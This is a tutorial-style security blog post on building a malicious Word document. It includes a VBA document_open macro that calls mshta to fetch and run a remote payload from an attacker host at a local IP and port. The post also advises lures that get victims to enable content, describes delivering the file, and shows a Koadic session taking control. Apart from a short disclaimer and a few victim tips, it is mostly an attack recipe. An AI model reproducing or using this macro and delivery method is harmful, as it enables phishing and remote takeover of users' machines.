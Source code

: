 ```yaml
---
title: "Create malicious office documents (Macro attack)"
date: "2020-04-19"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hello world.
This blog post is tend to show how macro attack works. We gonna create a malicious document that will execute our mshta payload.

This blog post is for education and research purpose only. If you do something bad, do with your own risk.

## Create document file in Microsoft Word

We will create a word file first and at the end of this tutorial save it as `.doc`. 

Maybe as an attacker, they will display a message to phishing user to click `enable editing` and `enable content` of the document like below picture.

![pic1](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic1.png)

## Create macro 

Click on 'view" tab

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic2.png)

Click Macros

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic3.PNG)

Type any name you want for Macro name and click "create" to create the macro

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic4.PNG)

On "Project" path, click ThisDocument

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic5.PNG)

Write our malicious macro code like below

```
Sub document_open()
    Shell ("cmd /c mshta http://192.168.83.129:9999/TPXfI")
End Sub
```
![//pic6](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic6.PNG)

You can also use other payload command line like powershell etc. The mshta attack is just an example.

In my case here, this macro will execute mshta fileless payload.

## Save as .doc

We gonna choose `.doc` or `.docm` file format to save this document because this type of document support to execute macro attack.

![//pic7](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic7.PNG)

Now, we can deliver this malicious document to target user.


# User execute and enable content
Once user open the document and enable content of our malicious document, the user will be compromised.

Take a look at below gif on how it works.

![//pic8.gif](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic8.gif)

Koadic now has take control our target user.

# User (victim) precaution
- Please make sure the document we've downloaded from internet/mail is clean
- Take a look who is the sender in your mail box
- Take a precautionary measures before open `.doc` or `.docm` document format.
